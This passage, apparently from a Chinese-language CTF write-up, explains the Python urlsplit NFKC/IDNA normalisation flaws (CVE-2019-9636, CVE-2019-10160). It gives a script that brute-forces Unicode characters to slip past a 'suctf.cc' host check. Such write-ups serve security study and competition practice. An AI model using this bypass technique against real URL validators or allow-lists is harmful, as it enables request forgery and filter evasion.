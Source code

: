 ```python
'www.example.com'
>>> finalUrl = parse.urlunsplit(parts).split(' ')[0]	#urlunsplit拼接为url
>>> finalUrl											#查看一下效果
'http://www.example.com/a?b&c=1#2'
>>>
```

```ph
CVE-2019-9636：urlsplit 不处理 NFKC 标准化
CVE-2019-10160：urlsplit NFKD 标准化漏洞

漏洞原理：
用 Punycode/IDNA 编码的 URL 使用 NFKC 规范化来分解字符。可能导致某些字符将新的段引入 URL。
例如，在直接比较中，\ uFF03不等于'＃'，而是统一化为'＃'，这会更改 URL 的片段部分。类似地，\ u2100 统一化为'a/c'，它引入了路径段。
```

脚本：

```python
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass
 
def getUrl(url):
    url=url
    host=parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts=list(urlsplit(url))
    host=parts[1]
    if host == 'suctf.cc':
        return False
    newhost=[]
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1]='.'.join(newhost)
    finalUrl=urlunsplit(parts).split(' ')[0]
    host=parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False
 
 
if __name__=='__main__':
    get_unicode()
```
